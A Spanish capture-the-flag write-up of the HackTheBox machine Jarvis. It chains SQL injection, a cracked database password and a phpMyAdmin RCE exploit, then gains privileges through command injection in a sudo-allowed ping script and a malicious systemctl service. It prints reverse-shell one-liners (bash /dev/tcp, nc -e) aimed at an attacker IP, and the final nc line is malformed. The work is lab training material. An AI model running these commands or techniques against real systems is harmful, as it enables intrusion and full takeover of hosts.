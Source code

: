 ```yaml
---
title: HackTheBox Jarvis
date: 2021-11-15 12:00:00 -0400
image: 
    src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/jarvis.png
    height: 1100
    width: 500
categories: [HTB Writeups, Linux Medium]
tags: [web, sqli, systmctl, rce]
---
```



**Machine IP**: 10.10.10.143


### Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes
### Nmap 
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/nmap.png)

Como vemos tiene el puerto 80 abierto, que es el http,  veremos en el navegador de que se trata y analizaremos la web.

### Wappalyzer
Usando la extensión wappalizer para identificar las tecnologías usadas en la web, encontramos que la web está usando phpmyadmin version 4.8

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/wappa.png)


Al hacer un poco de research encontramos la siguiente vulnerabilidad [phpMyAdmin 4.8.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50457) , que se aprovecha del ejecutar comandos a traves de parametros sql.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/exploitdb.png)

Este exploit nos pide parametros como contraseña y usuario, pero aun no los tenemos, así que debemos encontrar una forma de encontrar esos credenciales.

Haciendo inspección a la pagina encontré una vulnerabilidad de sql injection en la siguiente url `http://10.10.10.143/room.php?cod=6`

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/sql.png)

Usando la plataforma crackstation pude encontrar la contraseña

`MYSQL5 2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou`


Con esto ya podemos hacer uso del exploit que encontramos en exploitdb con el usuario DBadmin y la password imissyou


```bash
python3 forest.py supersecurehotel.htb 80 /phpmyadmin DBadmin imissyou "bash -c 'bash -i >& /dev/tcp/10.10.17.58/6968 0>&1' 
```

Antes de ejecutar el exploit establecmos un listener con netcat por el puerto 6968

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/wwwdata.png)

Obtenemos una shell como www-data


### Escalamiento de privilegios
Luego de obtener acceso a una Shell con el usuario www-data, buscamos que binarios puedes ser ejecutados como usuarios con privilegios.

```bash
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Vemos que se puede ejecutar el script simpler.py como el usuario pepeer.
Leyendo el script nos damos cuenta que ejecuta el comando ping usando la libreria os, esto se logra llamando a ping desde python, pero al hacer esto se pueden ejecutar otros comandos al final de este.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/ping.png)

Como vemos está validando que no se usen los caracteres especiales, pero para bypassear eso podemos crearnos un archivo y poner dentro nuestro comando para ejecutarnos una reverse shell, quedaría asi:

```

www-data@jarvis:/tmp$
www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.17.58 443' > /tmp/d.sh
www-data@jarvis:/tmp$ chmod +x /tmp/d.sh
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(/tmp/d.sh)
```

Obtenemos una shell como el usuario pepper y obtenemos el user.txt

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/usertxt.png)

Para escalar privilegios abusé del servicio systemctl que encontré buscando binarios con permisos suid.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/find.png)

Systemctl es un servicio se define mediante un archivo. Se utiliza para vincularlo a este , y luego se utiliza de nuevo para iniciar el servicio. Lo que hace el servicio está definido por el archivo.. servicesystemctlsystemd.service

Para explotar este servicio solo seguí los pasos que nos dá la gpina gtfo bins

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/gtfo.png)

Modificaré eso ligeramente para darme una reverse shell como usuario root.

```bash
cat priv.sh
#!/bin/bash
nc -e 10.10.17.58 444

echo '[Service]                               
Type=oneshot
ExecStart=/home/pepper/priv.sh
[Install]
WantedBy=multi-user.target' > esc.service

systemctl link /home/pepper/esc.service
systemctl enable --now /home/pepper/esc.service
```

```bash
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.17.58.
Ncat: Connection from 10.10.17.58:37160.
id
uid=0(root) gid=0(root) groups=0(root)
```

**Game over!
Obtenemos acceso root y el root.txt.**

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/roottxt.png)
